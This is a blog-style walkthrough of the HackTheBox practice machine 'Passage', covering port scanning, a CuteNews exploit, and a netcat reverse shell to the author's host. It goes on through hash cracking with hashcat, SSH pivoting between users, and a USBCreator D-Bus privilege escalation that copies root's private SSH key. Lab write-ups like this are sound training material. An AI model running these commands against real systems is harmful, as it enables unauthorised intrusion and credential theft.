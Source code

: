 ```yaml
---
layout: single
title:  Passage HackTheBox Walkthrough
date: 2022-7-25
classes: wide
header:
  teaser: 
tags:
  - HackTheBox
  - ctf
  - Linux
--- 
```


This box was made by my buddy @ChefByzen on Twitter, I know him from our Uni CTF team. Very cool box!

Let's get into it.
I started off by enumerating like usual with NMAP
```
# Nmap 7.80 scan initiated Sat Sep 26 16:38:13 2020 as: nmap -sCV -p- -vvv -A -T4 -oA passage 10.10.10.206
Nmap scan report for 10.10.10.206
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVnCUEEK8NK4naCBGc9im6v6c67d5w/z/i72QIXW9JPJ6bv/rdc45FOdiOSovmWW6onhKbdUje+8NKX1LvHIiotFhc66Jih+AW8aeK6pIsywDxtoUwBcKcaPkVFIiFUZ3UWOsWMi+qYTFGg2DEi3OHHWSMSPzVTh+YIsCzkRCHwcecTBNipHK645LwdaBLESJBUieIwuIh8icoESGaNcirD/DkJjjQ3xKSc4nbMnD7D6C1tIgF9TGZadvQNqMgSmJJRFk/hVeA/PReo4Z+WrWTvPuFiTFr8RW+yY/nHWrG6LfldCUwpz0jj/kDFGUDYHLBEN7nsFZx4boP8+p52D8F
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdB2wKcMmurynbHuHifOk3OGwNcZ1/7kTJM67u+Cm/6np9tRhyFrjnhcsmydEtLwGiiY5+tUjr2qeTLsrgvzsY=
|   256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGRIhMr/zUartoStYphvYD6kVzr7TDo+gIQfS2WwhSBd
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Not much is open so I decided to check out the site
Immediately I see that they have fail2ban and another user kim switft

```
**Implemented Fail2Ban**
18 Jun 2020 By admin 0 Comments
Due to unusally large amounts of traffic, View & Comment
Phasellus tristique urna
12 Jun 2020 By Kim Swift 0 Comments
Sed felis pharetra, nec sodales diam sagittis. View & Comment 
```

So gobuster is out of the question to enumerate directories.
I set out to investigate the site manually by playing around and I saw that it is powered by cutenews
After searching around I came across two exploits for it. 
One was metasploit and the other someone had written a python script for after the box was released.
The author of the box says that the intended route is with metasploit.

In either case you get a shell as www-data, we can't get the flag just yet. We have to escalate privileges to get the user flag. 

![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesPassageHTB/cutenews.png)

First order of business was making this a reverse shell cause I can't stand that default shell.
I ran nc -lnvp 9827 on my host kali machine and nc 10.10.**.** 9827 -e /bin/bash on the passage box

--------------------------

PRO TIP: RUN THESE FOR AN ENJOYABLE EXPERIENCE IN YOUR SHELL
```
python -c 'import pty;pty.spawn("/bin/bash");'
```
then
```
[CTRL-Z]
stty raw -echo;fg
[ENTER][ENTER]

source /etc/skel/.bashrc 
export TERM=screen-256color
```
END OF PRO TIP 

--------------------

At this point I got lost, that was until until I dig deeper and found /var/www/html/CuteNews/cdata.
In this directory I fell into a rabbithole of writing a python script to base64 decode the hashes inside of these many files
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesPassageHTB/base64.png)

For example, inside of one of those php files 
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesPassageHTB/1stphp.png)
has the first line as garbage and the second line being a base64 string. 
This script turned out to be for naught as the actual way to escalate privileges can be found inside the **Lines** file. 
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesPassageHTB/lines.png)
if you go through and decode them you come across one that says paul@passage.htb which is one of the two users I found when I was enumerating the home directory
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesPassageHTB/homedir.png)

Then we throw that hash we found into a hash analyzer and realize it's sha-256, well we could give it a shot cracking that hash to get his password.
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesPassageHTB/analyzer.png)

We could easily enough crack it with hashcat but this online service did it in less than a second.
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesPassageHTB/hashcrack.png)
If you want to take a more manual approach with hashcat yourself you could do it with 
```
hashcat -m 1400 paul.txt /usr/share/wordlists/rockyou.txt
```
at any rate you get atlanta1 as the password for paul
I enumerated as paul for a while until I eventually went into the .ssh dir and cated it all out,
I saw that nadav was in the authorized keys so while logged into paul I SSHd into nadav. 
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesPassageHTB/sshNadav.png)

Now out of all the privilege escalation i did for this box going from nadav to root was by far the hardest.
I always start out running a script that gives me a quick overview of the entire box very easily in case there's something i can spot out of place. In this case it didn't help all too much and I was left to exploring on my own

fail2ban, zeitgeist, and CUPS were the first processes that I investigated but I didn't come to any solution. I finally stumbled upon

```
/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
While looking at all the running processes. 
I don't remember having seen this before so I googled it and came across this article 
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
They describe how to exploit this to copy files to other 
```
gdbus call --system --dest com.ubuntu.USBCREATOR --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true
```
This copies the root rsa key to /tmp/pwn on my box. 
then we 
```
chmod 600 root_id_rsa 
ssh -i root_id_rsa root@10.10.10.206
```
And you can access root.txt
Thanks for reading!

